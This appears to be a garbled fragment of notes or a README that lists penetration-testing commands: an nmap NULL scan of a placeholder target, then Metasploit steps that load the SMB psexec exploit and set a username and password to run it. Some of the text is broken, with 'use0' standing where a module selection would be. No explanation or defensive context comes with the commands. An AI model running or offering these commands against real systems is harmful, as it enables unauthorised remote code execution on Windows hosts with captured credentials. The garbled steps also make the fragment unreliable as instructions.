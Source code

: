 Run
      nmap -sN -Pn -A [target IP] 

      msfconsole 
      search exploit/windows/smb/psexec

      use0


      set SMBPass [password]
      set SMBUser [user]
      run
      
